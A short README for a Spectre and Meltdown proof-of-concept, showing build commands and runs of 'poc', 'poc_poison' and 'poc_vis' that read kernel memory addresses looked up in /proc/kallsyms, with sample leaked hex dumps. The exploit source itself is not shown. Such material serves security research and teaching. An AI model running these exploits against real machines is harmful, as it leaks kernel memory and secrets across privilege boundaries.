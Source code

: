 Spectre and Meltdown Proof-of-Concept
=====================================

Read kernel addresses by stalling the pipeline and speculatively hitting a cacheline:

```
$ make
cc -o poc poc.c -O0 -lm 
$ grep init_top_pgt /proc/kallsyms 
ffffffffa2c09000 D init_top_pgt
$ ./poc ffffffffa2c09870  # skip some because it's mostly zeros
0xffffffffa2c09870 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0xffffffffa2c09880 | 67 20 21 b3 03 00 00 00 00 00 00 00 00 00 00 00 
0xffffffffa2c09890 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0xffffffffa2c098a0 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
...
```

Read kernel addresses by poisoning the branch predictor and speculatively hitting a cacheline:
```
$ ./poc_poison 0xffffffffa2c09880
0xffffffffa2c09880 | 67 20 21 b3 03 00 00 00 00 00 00 00 00 00 00 00 
...
```

Visualize memory read timings:
```
$ ./poc_vis 0xffffffffa2c09883
```
